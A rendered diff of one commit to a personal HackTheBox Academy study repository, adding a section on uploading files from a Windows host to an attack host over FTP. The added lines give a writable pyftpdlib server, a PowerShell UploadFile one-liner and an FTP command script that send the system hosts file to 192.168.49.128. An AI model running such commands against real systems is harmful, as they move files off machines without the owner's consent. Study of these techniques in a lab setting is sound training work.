

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
+++ b/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
@@ -262,3 +262,41 @@ copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
 ```
 **NOTE:** If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations
+
+
+### FTP Uploads
+
+- Specify the option --write to allow clients to upload files to our attack host, such as below:
+
+**Uploading Files to FTP**
+```
+sudo python3 -m pyftpdlib --port 21 --write
+```
+
+
+**PowerShell Upload File to FTP**
+```
+PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
+```
+
+**Create a Command File for the FTP Client to Upload a File**
+```
+echo open 192.168.49.128 > ftpcommand.txt
+echo USER anonymous >> ftpcommand.txt
+echo binary >> ftpcommand.txt
+echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
+echo bye >> ftpcommand.txt
+```
+
+Now log into the FTP server and get the ftpcommand.txt file
+```
+C:\htb> ftp -v -n -s:ftpcommand.txt
+ftp> open 192.168.49.128
+
+Log in with USER and PASS first.
+
+
+ftp> USER anonymous
+ftp> PUT c:\windows\system32\drivers\etc\hosts
+ftp> bye
+```
````
